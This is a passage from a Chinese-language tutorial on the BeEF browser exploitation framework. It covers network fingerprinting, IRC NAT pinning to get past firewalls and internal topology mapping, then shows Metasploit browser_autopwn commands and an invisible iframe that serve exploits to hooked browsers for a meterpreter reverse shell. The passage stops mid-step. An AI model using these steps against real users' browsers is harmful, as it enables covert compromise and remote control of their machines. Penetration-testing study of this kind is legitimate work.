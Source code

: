**Fingerprint Network模块**

如图

![这里写图片描述](http://static.wooyun.org//drops/20151023/2015102301150847214.net/20151022083720822)

**9、Remote CSRFs**

**10、IRC NAT Pinning**

模拟浏览器的IRC通信，可用来绕过防火墙

**11、网络拓扑**

BeEF可根据扫描获得的信息绘制内网网络拓扑 如图

![这里写图片描述](http://static.wooyun.org//drops/20151023/2015102301150814032.net/20151022083731946)

![这里写图片描述](http://static.wooyun.org//drops/20151023/2015102301150993686.net/20151022083739902)

![这里写图片描述](http://static.wooyun.org//drops/20151023/2015102301150983980.net/20151022083748579)

此部分会在以后详细介绍

## 4-结合Metasploit

**1、Metasploit系列模块**

如图

![这里写图片描述](http://static.wooyun.org//drops/20151023/2015102301151061745.net/20151022083758254)

**2、Browser Autopwn**

反弹回meterpreter

方法：

**（1）**使用Metasploit的Browser Autopwn功能生成BrowserAutoPwn URL
    
    
    use auxiliary/server/browser_autopwn
    show options
    set LHOST 192.168.16.245
    set SRVHOST 192.168.16.245
    set SRVPORT 8881
    run -z
    

生成一个链接，如图

![这里写图片描述](http://static.wooyun.org//drops/20151023/2015102301151011311.net/20151022083810204)

![这里写图片描述](http://static.wooyun.org//drops/20151023/2015102301151133837.net/20151022083817418)

**（2）**使用"Create Invisible Iframe"模块加载autopwn页面

如图
